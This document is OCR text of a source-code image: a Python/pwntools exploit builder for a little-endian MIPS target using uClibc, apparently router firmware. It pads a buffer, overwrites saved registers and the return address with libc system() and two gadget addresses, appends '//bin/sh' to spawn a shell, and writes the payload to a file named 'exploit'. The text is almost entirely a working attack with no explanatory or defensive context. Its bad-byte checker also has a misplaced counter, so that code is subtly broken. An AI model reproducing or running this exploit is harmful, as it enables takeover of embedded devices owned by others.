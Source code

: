         def AddNOPs(self, size):  
            self.Add(self.rand_text(size))  
      
        def AddBuffer(self, size, byte=FILLER):  
            self.Add(byte * size)  
      
        def Build(self):  
            count = 0  
            for c in self.payload:  
                if self.badbytes.find(c) != -1:  
                    raise ValueError("Bad byte found in payload at offset %d: 0x%.2X" % (count, c))  
            count += 1  
            return self.payload  
      
        def Print(self, bpl = BYTES):  
            i = 0  
            for c in self.payload:  
                if i == 4:  
                    print()  
                    i = 0  
                sys.stdout.write("\\x%.2X" % c)  
                sys.stdout.flush()  
                if bpl > 0:  
                    i += 1  
            print("\n")  
    context.arch = "mips"  
    context.endian = "little"  
    context.log_level = "debug"  
      
    payload = MIPSPayload(0x7f738000)  
      
    libc = ELF("./lib/libuClibc-0.9.30.1.so")  
    libc.address = 0x77fe2000  
    system_addr = libc.symbols['system']  
    log.success("system address: 0x%x" % system_addr)  
    calcsystem = 0x158c8    # $s0 add 1, jalr $s5  
    callsystem = 0x159cc    # cmd -> $a0, jalr $s0 (system_addr)  
      
    payload.AddBuffer(0x3CD)                    #       973  
    payload.AddAddress(system_addr - 1)         # $s0   977  
    payload.AddBuffer(4)                        # $s1   981  
    payload.AddBuffer(4)                        # $s2   985  
    payload.AddBuffer(4)                        # $s3   989  
    payload.AddBuffer(4)                        # $s4   993                       
    payload.AddAddress(callsystem)              # $s5   997  
    payload.AddBuffer(4)                        # $s6   1001  
    payload.AddBuffer(4)                        # $s7   1005  
    payload.AddBuffer(4)                        # $fp   1009  
    payload.AddAddress(calcsystem)              # $ra  
    payload.AddBuffer(0x10)                     # .text:000159CC  addiu   $s5, $sp, 0x170+var_160  
    payload.Add(b'//bin/sh')  
      
    f = open("exploit", 'wb+')  
    f.write(payload.Build())  
    f.close()
